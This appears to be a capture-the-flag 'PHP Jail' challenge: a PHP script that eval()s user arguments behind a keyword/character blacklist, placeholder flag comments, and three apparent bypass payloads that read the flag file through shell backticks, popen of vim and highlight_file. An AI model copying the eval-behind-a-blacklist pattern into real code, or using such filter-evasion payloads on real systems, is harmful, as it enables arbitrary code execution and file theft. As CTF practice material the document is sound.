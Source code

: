 <!-- FLAG-sW66QEY4y6724723c7w1i0oMt179E75y -->
<!-- FLAG-YlxV8cCg84zvUtt595dla5un9EW57BCL -->
<!-- FLAG-D6jg9230H05II3ri5QB7L9166gG73l8H -->

<?php
array_shift($_SERVER['argv']);
$var = implode(" ", $_SERVER['argv']);

if($var == null) die("PHP Jail need an argument\n");

function filter($var) {
     // if(preg_match('/(`|open|exec|pass|system|\$|\/)/i', $var)) {
        if(preg_match('/(\/|a|c|s|require|include|flag|eval|file)/i', $var)) {
                return false;
        }
        return true;
}
if(filter($var)) {
        eval($var);
        echo "Command executed";
} else {
        echo "Restricted characters has been used";
}
echo "\n";
?>

print `dd <$(printf 'fl%xg.txt' 10)`;
popen("vim", "w");
print highlight_file(glob('fl*g*txt')[0]);


